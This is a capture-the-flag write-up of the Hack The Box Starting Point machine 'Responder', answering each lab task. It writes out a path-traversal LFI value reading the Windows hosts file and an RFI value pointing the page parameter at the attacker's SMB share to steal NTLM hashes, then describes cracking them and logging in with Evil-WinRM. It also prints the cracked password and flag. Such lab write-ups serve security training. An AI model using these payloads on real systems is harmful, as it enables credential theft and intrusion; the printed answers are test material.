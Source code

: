 # Responder

Responder is a very easy windows machine on Hack The Box Starting Point Tier 1 that focuses on remote file inclusion vulnerabilities, login credential theft, and weak credentials using Responder, John the Ripper, and Evil-WinRM.

## Task 1

**When visiting the web service using the IP address, what is the domain that we are being redirected to?**

> unika.htb

We use the `curl` command with the `-L` flag to follow the redirect:

![Redirect](redirect.png)

## Task 2

**Which scripting language is being used on the server to generate webpages?**

> php

We use the `curl` command with the `-I` flag to get the header:

![Header](header.png)

## Task 3

**What is the name of the URL parameter which is used to load different language versions of the webpage?**

> page

We try using a browser to visit `http://unika.htb`, but get a server not found error.

![Browser Error](browser_error.png)

The `/etc/hosts` file maps IP addresses with hostnames. We can add a line to the `/etc/hosts` file mapping the website IP address to `unika.htb`.

![Add Mapping to /etc/hosts](add_host.png)

Now the website appears correctly in our browser:
![Website](website.png)

Upon looking at the website, we notice a navigation pane in the top right corner. We see that clicking on the `EN` button gives us options to change the website language to `FR` and `DE`. Clicking on the `FR` button changes the website language to French and redirects us to `http://unika.htb/index.php?page=french.html`. Clicking on the `DE` button changes the website language to German and redirects us to `http://unika.htb/index.php?page=german.html`. When the website language is changed to both French and German, the website uses the URL parameter `page` to load a different language version of the web page.

## Task 4

**Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**

> ../../../../../../../../windows/system32/drivers/etc/hosts

## Task 5

**Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**

> //10.10.14.6/somefile

## Task 6

**What does NTLM stand for?**

> New Technology LAN Manager

## Task 7

**Which flag do we use in the Responder utility to specify the network interface?**

> -I

We use Responder on the `tun0` interface:

![Launching Responder](responder1.png)

## Task 8

**There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.**

> john the ripper

## Task 9

**What is the password for the administrator user?**

> badminton

After launcing Responder, we exploit a remote file inclusion vulnerability and visit `http://unika.htb?page=//{OUR IP}/somefile`. The Responder machine attempts to access a file on an SMB server located on our machine and the Responder utility allows us to steal their NTLM Hash user credentials.

![Stealing NTLM Hash User Credentials](responder2.png)

Next we use the `wget` command to download the [rockyou.txt wordlist](https://github.com/josuamarcelc/common-password-list/raw/refs/heads/main/rockyou.txt/rockyou_1.txt) as a file called `wordlist.txt`. Then we use John the Ripper with our downloaded wordlist:

![John The Ripper](john.png)

## Task 10

**We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?**

> 5985

## Flag

> ea81b7afddd03efaa0945333ed147fac

We login to the Evil-WinRM shell with our stolen credentials. Then we view the contents the `flag.txt` file:

![Flag](flag.png)

